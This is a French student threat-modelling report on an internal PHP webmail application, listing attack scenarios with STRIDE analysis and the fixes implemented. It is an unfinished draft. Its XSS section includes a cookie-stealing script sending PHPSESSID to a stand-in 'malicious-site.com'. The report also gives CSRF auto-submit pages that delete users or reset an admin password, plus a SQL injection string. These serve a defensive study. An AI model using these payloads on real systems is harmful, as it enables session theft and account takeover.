


# STI : Projet 2 - Étude de menaces

Auteurs : Nicolas Ogi, Rebecca Tavaearai

Date : 29.12.2021

[TOC]

## Introduction

Dans le cadre du cours STI dispensé à la HEIG-VD, il nous a été demandé de réaliser une étude de menaces sur une application Web de messagerie électronique, développée lors d'un projet précédent.

Tout d'abord, ce document commence par la description du système dans sa globalité, de ses objectifs à son périmètre de sécurisation en passant par un digramme de flux. Ensuite, une identification des sources de menaces ainsi que des scénarios d'attaque. Finalement, l'identification des contre-mesures mises en place en fonction des différents scénarios d'attaque ainsi qu'une conclusion qui termine ce document.


## Description du système

### Objectif du système

L'application Web permet aux membres d'une entreprise, une fois authentifiés, de s'échanger des messages électroniques par l'intermédiaire d'une base de données. 

### Hypothèses de sécurité

Comme l'application est exécutée au sein d'une entreprise, on estime que le réseau interne, l'OS, le serveur Web et les administrateurs sont de confiance.

### Exigences de sécurité

- Seule la page de login doit être accessible sans être authentifié
- Seuls les administrateurs ont le droit d'ajouter, modifier ou supprimer un utilisateur
- Il ne doit pas être possible pour un utilisateur, peu importe son rôle, de pouvoir consulter les messages reçus d'un autre utilisateur
- La base de données contenant les informations associées aux utilisateurs doit absolument être protégée
- Un utilisateur, peu importe son rôle, ne doit pas pouvoir modifier ou supprimer un message après l'avoir envoyé (non-répudiation)
- Un utilisateur doit être défini comme "actif" pour pouvoir se connecter
- La page de gestion de la base de données de doit être accessible que par celui ou celle qui en connaît le mot de passe

### Éléments du système

- Application Web
- Base de données des utilisateurs

### Rôles des utilisateurs

- Collaborateurs (lecture et écriture de messages, changement du mot de passe personnel)
- Administrateurs (accès aux mêmes fonctionnalités que les collaborateurs + ajout, modification et suppression d'un utilisateur)

### DFD


### Identification des biens

- **Application Web de messagerie électronique** : Si elle venait à être attaquée, nous pourrions avoir des comptes utilisateurs usurpés afin de répandre de fausses informations aux autres utilisateurs et des désactivations ou suppressions de compte dans le cas où un compte Administrateur serait compromis. Nous avons donc une perte de confidentialité et d'intégrité.
- **Base de données contenant les messages des utilisateurs qui se connectent à l'application Web** : Si elle devait être compromise, un attaquant pourrait récupérer tous les messages échangés entre les utilisateurs. Pire, si la page de gestion de cette DB devait l'être aussi, l'attaquant pourrait également modifier voire supprimer les messages contenus, nous avons donc, dans ce cas-là, une perte totale de confidentialité et d'intégrité. Il pourrait même supprimer la DB toute entière, ce qui rendrait l'application Web indisponible.


### Définition du périmètre de sécurisation

Comme l'application ne serait accessible qu'en interne, le serveur sur laquelle elle s'exécute ne se situe pas dans une DMZ mais directement dans le réseau privé de l'entreprise. Ce qui veut dire que les données n'ont pas de périmètre de sécurité à franchir entre des zones de confiances différentes. Nous supposons que les fonctions d'administration doivent rester accessibles peu importe où l'on se trouve dans le réseau donc pas de limitations à certains VLAN ou plages d'IP.


## Identification des sources de menaces

Si l'application Web ne tourne qu'en interne dans l'entreprise et n'est accessible qu'à l'intérieur de celle-ci, il est clair que les sources de menaces principales sont les employés eux-mêmes. Cependant, différentes sources de menaces venant d'un réseau externe existent mais devraient dans un premier temps être capables d'entrer à l'intérieur du réseau de l'entreprise et éventuellement compromettre la machine d'un employé avant de pouvoir attaquer l'application Web, ce qui fait que leurs potentialités est plus faibles.


**Employé mécontent** :

- Motivation : Revanche, sabotage, divulgation d'informations sensibles sur l'entreprise, modification d'informations
- Cible : Base de données contenant les noms des utilisateurs et leurs messages (en y accédant directement ou via les mailboxes des autres employés)
- Potentialité : moyenne


**Employé malin ou curieux** :

- Motivation : Espionner les messages des autres employés, obtenir des droits supplémentaires, faire une blague
- Cible : Base de données contenant les noms des utilisateurs et leurs messages (en y accédant directement ou via les mailboxes des autres employés), Page de gestion des administrateurs
- Potentialité : moyenne


**Hackers, script-kiddies** :

- Motivation : S'amuser, gloire
- Cible : N'importe quel élément / actif
- Potentialité : faible


**Cybercrime (spam, maliciels)** :

- Motivation : Financières

- Cible : Vol de credentials des employés, spam des employés, modification d'informations, phishing, revente d'informations

- Potentialité : faible

  

**Concurrent** :

- Motivation : Espionnage industriel
- Cible : Messages échangés entre les employés
- Potentialité : faible


## Identification des scénarios d'attaques

### Éléments du système attaqué

Les éléments cibles principaux sont les biens identifiés plus haut dans le document, la base de données contenant les informations des utilisateurs et leurs messages ainsi que l'application Web elle-mêmes.


### Motivation(s)

Les motivations ont été divisées en deux parties selon la cible.

- **Base de données** : 

  Dans le cas où la base de données est la cible de l'attaque, les motivations vont être de récupérer, modifier ou supprimer les données.

  - Récupération des données afin de les divulguer ou de les revendre
  - Modification de l'intégrité des données afin de perturber les échanges d'informations entre les employés (chiffrement par un ransomware)
  - Suppression des données afin de faire perdre du temps et de l'argent à l'entreprise

  

- **Application Web** :

  Dans le cas où l'application Web est la cible de l'attaque, les motivations vont être de la rendre inutilisable (DDoS) ou d'usurper l'identité d'un administrateur afin de tromper les employés. Elles pourraient également être la revente ou la divulgation de données sensibles contenues dans les mailboxes des employés dans le cas ou l'attaquant n'a pas réussi à accéder à la base de données directement.


### Scénarios d'attaque

Les scénarios d'attaque listés ci-dessous sont basés sur les vulnérabilités identifiées lors de tests sur l'application Web. 

Comme l'application Web n'est accessible que depuis le réseau interne de l'entreprise, les sources de menace les plus probables sont surtout les personnes ayant accès au réseau interne et donc les employés eux-mêmes, c'est pour cela que ce sont les seules sources de menaces listés dans les différents scénarios d'attaque. Il est clair que des hackers, script-kiddies, le cybercrime voire des concurrents pourraient également faire partie des sources de menace mais la probabilité est plus faibles car ils devraient d'abord percer les défenses de l'entreprise afin de se retrouver dans le réseau interne de celle-ci.

#### 1. Brute-forcer le système d'autentification afin d'avoir accès à la mailbox d'un employé 

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Sources de la menace** : employé mécontent ou malin

- **Motivation** : sabotage, divulgation d'information, curiosité

- **Actif(s) visé(s)** : mailboxes d'autres employés

- **Scénario d'attaque** :

  Comme aucune politique de mot de passe n'a été définie, il peut exister des mots de passe faibles et donc facilement cassables. De plus, comme aucun moyen ne limite le nombre de tentatives infructueuses, un employé peut sans limite brute-forcer les credentials d'un autre employé et finalement réussir à se connecter à son compte et ainsi voir les messages qu'il a reçus et en envoyer des nouveaux en son nom. Pire, si le compte craqué appartient à un administrateur, l'attaquant aurait accès à la gestion des utilisateurs afin d'en ajouter des nouveaux et de supprimer ou modifier des existants.

  En plus de cela, bien que l'application renvoie un message d'erreur générique lorsque le nom d'utilisateur ou le mot de passe est incorrect, il est possible de savoir si le nom d'utilisateur existe à l'aide d'une timing attack, ce qui limite le nombre de combinaisons lorsque l'on trouve un nom d'utilisateur existant dans la DB. L'attaquant n'a plus qu'à brute-forcer les mots de passe. Voici les résultats obtenus lors du chargement de la page de login après une tentative de connexion infructueuse avec les deux cas ci-dessous :

  - **Le nom d'utilisateur existe** : 

  

  Cela prend plus de temps car le système vérifie d'abord le nom d'utilisateur puis doit vérifier le mot de passe avant de retourner une réponse.

  - **Le nom d'utilisateur n'existe pas** :

  

  Ici, le système ne vérifie que le nom d'utilisateur et comme il n'existe pas, le mot de passe n'est pas vérifié et la réponse est donc retournée plus vite.

- **Contrôles** :
  - Définir une politique de mots de passe forte (min. 8 caractères, min. 1 chiffre, min. 1 minuscule, min. 1 majuscule, min. 1 caractère spécial)
  - Limiter le nombre de tentatives infructueuses avant de désactiver le compte mais **attention** un attaquant pourrait profiter de cette contre-mesure pour bloquer les comptes des employés, ce qui ferait perdre du temps à l'entreprise pour réactiver les comptes
  - Limiter le débit des tentatives après un certains nombres de tentatives infructueuses (avec un CAPTCHA par ex.)
  - Bloquer l'IP de la source après plusieurs tentatives infructueuses
  - Modifier le flux du login pour garder un temps constant afin d'éviter les timing attacks
  
- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  
  - Tampering
  
  - Repudiation (supprimer un message envoyé, depuis la boîte mail du destinataire)
  
  - Information disclosure
  
    

#### 2. Contourner le système d'autorisation afin d'effectuer des actions sur les messages des autres employés

- **Impact sur l'entreprise** : moyen (perte de confidentialité, perte d'intégrité)

- **Source de la menace** : employé mécontent ou malin

- **Motivation** : sabotage, curiosité

- **Actif(s) visé(s)** : messages envoyés par d'autres employés

- **Scénario d'attaque** :
  
  Une fois connecté, un employé peut très facilement manipuler les paramètres de l'URL afin d'accéder voire supprimer des messages contenus dans la base de données qui ne lui appartiennent pas. Ainsi, il pourrait obtenir des informations confidentielles au sein de l'entreprise qui ne lui sont pas destinées ou supprimer des messages dans un but de sabotage. De plus, le fait qu'un employé puisse supprimer n'importe quel message de la base de données fait qu'il pourrait très bien répudier l'envoi d'un message (en le supprimant et dire qu'il n'a jamais rien envoyé).
  
- **Contrôles** :
  - Mettre en place un système d'autorisation qui empêche les employés d'effectuer des actions sur les messages dont ils ne sont pas les destinataires
  
- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Tampering
  - Repudiation
  
  - Information disclosure
  
    

#### 3. Récupération des données échangées entre les clients et le serveur en sniffant le trafic sur le réseau interne

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Source de la menace** : employé mécontent, malin ou curieux

- **Motivation** : sabotage, divulgation d'information, curiosité, usurpation d'identité

- **Actif(s) visé(s)** : toutes données transitant entre le serveur et les clients

- **Scénario d'attaque** :
  
  Comme l'application Web utilise HTTP pour échanger les données entre le client et le serveur, il est tout à fait possible de sniffer le réseau afin de récupérer les credentials d'un employé ou récupérer des messages envoyés à un autre employé. Un attaquant pourrait récupérer les credentials d'un administrateur, usurper son identité, accéder aux fonctionnalités supplémentaires (gestion admin). De manière plus active, il pourrait à l'aide d'un proxy d'interception, modifier la requête envoyée au serveur afin de porter atteinte à l'intégrité d'un message envoyé à un autre employé (en modifiant l'expéditeur d'un message par ex.).
  
- **Contrôles** :
  - Bien que cette contre-mesure ne sera pas mise en place dans le cadre de ce projet, la solution la plus efficace à ce problème de sécurité est de passer le serveur en HTTPS afin que tous les messages échangés soient chiffrés pour ainsi assurer la confidentialité, l'intégrité et l'authenticité
  
- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  
  - Tampering
  
  - Repudiation
  
  - Information disclosure
  
    

#### 4. Attaque Cross-Site Scripting

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Sources de la menace** : employé mécontent, malin ou curieux

- **Motivation** : sabotage, divulgation d'information, curiosité, usurpation d'identité

- **Actif(s) visé(s)** : compte de l'employé visé 

- **Scénarios d'attaque** :

  - A l'aide d'une balise `<script>` injectée dans le sujet d'un message par exemple, un attaquant peut voler le cookie *PHPSESSID* de l'employé cible en lui envoyant ce message. À l'ouverture de sa mailbox, le script sera exécuté et enverra le cookie de l'employé au site malicieux de l'attaquant, il pourra ensuite utiliser ce cookie dans son navigateur afin de lui voler sa session.

    Exemple de script :
    
    ```html
    <script>fetch("http://www.malicious-site.com/steal?cookie=" + document.cookie);</script>
    ```
    
  - Même principe que le scénario précédent mais là, l'attaquant va modifier le DOM de l'employé cible et changer le comportement d'un lien ou d'un bouton pour le rediriger sur un site malicieux.

    Exemple de script :

    ```html
    <script>var logoutBtn = document.getElementsByTagName("a")[3]; logoutBtn.href = "http://www.malicious-site.com";</script>
    ```

  - En reprenant le scénario précédent, un attaquant peut également profiter des fonctionnalités accessibles uniquement par un administrateur en modifiant l'action d'un bouton pour que l'employé admin visé effectue une action involontaire en appuyant sur celui-ci.

    Exemple de script :

    ```html
    <script>var logoutBtn = document.getElementsByTagName("a")[3]; logoutBtn.href = "index.php?action=delete_user&no=24";</script>
    ```

- **Contrôles** :

  - Assainir les inputs utilisateur pour éviter que des balises HTML soient interprétables
  - Passer le cookie *PHPSESSID* en *httpOnly* pour empêcher sa récupération via `document.cookie` 

  

- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  - Tampering
  - Repudiation (supprimer un message envoyé, depuis la boîte mail du destinataire)
  - Information Disclosure
  - Elevation of privilege
  
  

#### 5. Attaque Cross-Site Request Forgery

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Sources de la menace** : employé mécontent, malin

- **Motivation** : sabotage, divulgation d'information, usurpation d'identité, curiosité

- **Actif(s) visé(s)** : compte d'un autre employé

- **Scénario d'attaque** :

  - Un employé malicieux pourrait envoyer le lien de son site pirate à un administrateur **authentifié** afin qu'il exécute une action involontaire lorsqu'il se connecte à celui-ci (ajouter/supprimer/modifier un utilisateur par ex.).

    Exemple de site malicieux :

    ```js
    app.get('/', function (req, res) {
        res.send(`
        <body onload="document.forms[0].submit()">
        <form action="http://localhost:8081/index.php?action=delete_user&no=27" method="POST"></form>`);
    });
    ```

  - Un employé malicieux pourrait également voler le compte d'un administrateur (ou utilisateur) en le forçant à changer de mot de passe involontairement pour pouvoir ensuite se connecter à son compte avec ce nouveau mot de passe défini.

    Exemple de site malicieux :

    ```js
    app.get('/', function (req, res) {
        res.send(`
        <body onload="document.forms[0].submit()">
        <form action="http://localhost:8081/index.php?action=update_user&no=1" method="POST">
            <input type="hidden" name="role" value="1"/>
            <input type="hidden" name="password" value="Pass1234"/>
            <input type="hidden" name="confpassword" value="Pass1234"/>
            <input type="hidden" name="valid" value="on"/>
        </form>`);
    });
    ```

  - Selon le même principe, un attaquant pourrait forcer l'envoi d'un message à un autre employé avec le compte de l'employé visé.


- **Contrôles** :

  - Utiliser des tokens anti-CSRF dans les formulaires

  

- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  - Tampering
  - Repudiation (supprimer un message envoyé, depuis la boîte mail du destinataire)
  
  - Information disclosure
  - Elevation of privilege
  
  

 #### 6. Injection SQL

- **Impact sur l'entreprise** : moyen (perte de confidentialité, perte d'intégrité)

- **Sources de la menace** :  employé mécontent ou curieux

- **Motivation** : divulgation d'information, curiosité, sabotage

- **Actif(s) visé(s)** : messages des autres employés

- **Scénario d'attaque **(**A VERIFIER**) :

  Un attaquant observe qu'en insérant un apostrophe dans le destinataire d'un message, le serveur retourne une erreur SQL lors de l'envoi de celui-ci. Le système semble donc vulnérable aux injections SQL. L'attaquant peut ainsi récupérer chaque message de la DB en manipulant l'URL en ajoutant un `1' OR 1` par exemple. Il pourrait également supprimer n'importe quel message en utilisant la même technique. 

  **Voir s'il est possible de changer le mot de passe d'un autre utilisateur**

  

- **Contrôles** :

  - Utiliser des prepare statements pour éviter les injections SQL dans les requêtes légitimes

  

- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - (Spoofing) (**A VERIFIER**) 
  - Tampering
  - Repudiation (supprimer un message envoyé)
  - Information disclosure
  - (Denial of service) (**A VERIFIER**) 
  
  

#### 7. Brute-force de la page de login de la base de données

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Sources de la menace** : employé mécontent ou malin

- **Motivation** : sabotage, divulgation d'information, curiosité

- **Actif(s) visé(s)** : base de données des utilisateurs et des messages

- **Scénario d'attaque** :

  Comme la page de gestion SQLite est accessible si l'on connait le nom de la ressource, un attaquant pourrait dans un premier temps brute-forcer les noms des fichiers accessibles via l'URL à l'aide de différents outils existants (ZAP, DirBuster, Burp Intruder, etc...) et ainsi obtenir l'arborescence du site. Puis, si une politique de mot de passe n'a pas vraiment été définie, il pourrait tenter de brute-forcer les credentials de la DB afin d'y accéder. Si l'accès est obtenu, il s'agit de la vulnérabilité la plus grave identifiée car un attaquant pourrait littéralement avoir accès à toutes les données de l'application et les copier, les supprimer ou les modifier. Il pourrait même supprimer la base de données entièrement et ainsi rendre l'application indisponible.

- **Contrôles** :

  - Définir une politique de mots de passe forte (min. 8 caractères, min. 1 chiffre, min. 1 minuscule, min. 1 majuscule, min. 1 caractère spécial)
  - Autoriser l'accès à la ressource que depuis une certaine IP (poste de l'administrateur DB) en modifiant les paramètres du serveur Nginx
  - Chiffrer les données stockées dans la base de données afin que même si elle est dump, aucune donnée n'est lisible sans la clé

- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  - Tampering
  - Repudiation
  - Information disclosure
  - Denial of service
  - Elevation of privilege

  


## Identification des contre-mesures

Dans cette partie du rapport, nous listons les contre-mesures mises en place dans l'application par rapport aux différents scénarios d'attaque identifiés, avec des détails plus techniques concernant ce qui a dû être entrepris dans le code PHP.

#### 1. Mise en place d'une politique de mot de passe

Cette contre-mesure permet de renforcer les mots de passe et ainsi éviter qu'ils soient trop facilement cassables.

Pour faire cela, une nouvelle fonction PHP a été créée dans le fichier *controller/users.php* permettant de vérifier que le mot de passe entré lors de la création ou la modification d'un compte utilisateur respecte bien la politique de mot de passe suivante :

Min. 8 caractères, min. 1 chiffre,  min. 1 majuscule, min. 1 minuscule, min. 1 caractère spécial

```
^(?=.*\d)(?=.*[A-Z])(?=.*[a-z])[0-9A-Za-z!?()<>+&=~^¦|¬;,.:_@#€£$%]{8,}$
```


#### 2. Mise en place d'un CAPTCHA

Cette contre-mesure permet de limiter le débit des tentatives de connexion infructueuses car elle va demander de "résoudre" un CAPTCHA qui lors des premières tentatives sera juste de cocher la case "Je ne suis pas un robot" mais qui se compliquera au fur et à mesure des tentatives (reconnaissance d'objets dans des photos).

Il a simplement fallu utiliser la solution clé en main [reCAPTCHA v2](https://developers.google.com/recaptcha/docs/display) proposée par Google et la mettre place dans les fichiers *view/login.php* et *controller/login.php*.


#### 3. Modification du flux lors du login pour garder un temps constant

Cette contre-mesure permet d'éviter les timing attacks en faisant en sorte de ne pas pouvoir savoir si un compte utilisateur existe ou non lors de tentatives de login. Combinée avec les deux contre-mesures ci-dessus, le risque lié au scénario d'attaque 1 est fortement atténué.

Afin de la mettre en place, il a fallu modifier l'exécution du code existant et cette fois, au lieu de retourner directement la page de login si le compte utilisateur n'existe pas, le mot de passe entré est quand même comparé à un faux hash (à l'aide de la fonction PHP `password_verify()`) afin de rallonger artificiellement le temps de traitement de la tentative de connexion au compte.


#### 4. Vérification de l'utilisateur connecté lors de l'accès à la base de données

Cette contre-mesure correspond à la mise en place d'un système d'autorisation qui va vérifier que le numéro de destinataire d'un message est bien égal au numéro de l'utilisateur actuellement connecté à la mailbox lors d'actions sur ce dit message (afficher les détails, répondre, supprimer). En effet, cela permet d'empêcher un utilisateur d'accéder, de répondre voire de supprimer un message qui ne lui était pas destiné. Cette contre-mesure rend le scénario d'attaque 2 infaisable.

Pour effectuer cela, les détails du message sont d'abord récupérés afin d'extraire le numéro de destinataire pour ensuite le comparer au numéro de l'utilisateur dont la session est ouverte. Voici un exemple avec le code de la fonction `show_msg_details()` :

```php
<?php
/**
 * Fonction appelée dans l'index.php afin de retourner les détails d'un mail, eux-mêmes retournés par la
 * fonction getMailDetails située dans la partie model
 * @throws Exception
 */
function show_msg_details() {

    // la variable $mail est ensuite utilisée pour afficher les détails du mail dans la vue details.php
    $mail = getMailDetails($_GET['no'])->fetch();

    // les détails du message s'affichent seulement si l'utilisateur connecté en est le destinataire
    if ($mail['recipient'] == $_SESSION["no"]) {
        require('view/details.php');
    }
    else { // sinon une exception est lancée
        throw new Exception('You do not have the rights to access this message');
    }
}
?>
```


#### 5. Passage du cookie en HttpOnly

Cette contre-mesure permet d'éviter le vol du cookie *PHPSESSID* via JavaScript avec `document.cookie`.

Afin de la mettre en place, il a simplement fallu définir le paramètre *HttpOnly* à `true` à l'aide de la fonction `session_set_cookie_params()` avant l'appel à la fonction `session_start()` qui lance la session dans le fichier *index.php*.


#### 6. Conversion des caractères spéciaux en entités HTML

Cette contre-mesure empêche l'exécution de scripts lors d'attaques XSS car elle va convertir les caractères spéciaux en entités HTML plutôt que de les interprétés directement. Cette contre-mesure et celle d'au-dessus empêche la réalisation du scénario d'attaque 4.

Pour la mettre en place, il a fallu faire appel à la fonction `htmlspecialchars()` avant d'afficher toute saisie utilisateur dans les vues.

Exemple avant/après :

```php
echo $mail['subject'];
```

```php
echo htmlspecialchars($mail['subject']);
```


#### 7. Mise en place d'un token anti-CSRF

Cette contre-mesure empêche la réalisation d'attaques CSRF qui forcent un utilisateur authentifié à effectuer une action involontaire sans qu'il ne s'en rende compte. Elle permet d'empêcher le scénario d'attaque 5.

Pour faire cela, il a fallu d'abord générer un token pseudo-aléatoire et donc non-prédictible à l'aide de cette combinaison de fonctions `bin2hex(openssl_random_pseudo_bytes(32))`. Le token anti-CSRF est généré au début de chaque nouvelle session dans le fichier *index.php*. Au chargement d'une page, il est dynamiquement ajouté par le serveur comme champ caché dans un formulaire afin de le récupérer en tant que paramètre POST ou dans l'URL lors d'actions afin de le récupérer en tant que paramètre GET.

Ensuite, avant chaque action qui engendre une modification de la base de données (c-à-d. envoyer/supprimer un message ou ajouter/modifier/supprimer un utilisateur), le token est vérifié dans différentes fonctions des controllers afin de s'assurer que l'action est bien effectuée depuis une page chargée du site web et non depuis un domaine tiers.

Concernant le formulaire de la page de login, un token anti-CSRF n'était pas requis car le CAPTCHA fait déjà office de vérification, on ne peut pas le valider sans avoir chargé la page au préalable. Ainsi, grâce à lui, il n'est déjà pas possible de forcer un utilisateur à se connecter à un compte.

Pour ce qui est du logout, le token anti-CSRF a été ajouté à cette action bien qu'elle n'engendre pas de modification de la DB mais cela permet d'éviter qu'un utilisateur authentifié soit forcé à se déconnecter car cela peut être la première étape d'une tentative de phishing perpétrée par un attaquant. En effet, un attaquant pourrait ensuite présenter un faux formulaire de connexion afin de voler les credentials de l'utilisateur piégé.


#### 8. Préparation des requêtes SQL avant exécution

Cette contre-mesure permet d'éviter les injections SQL dans les requêtes légitimes. 


## Conclusion

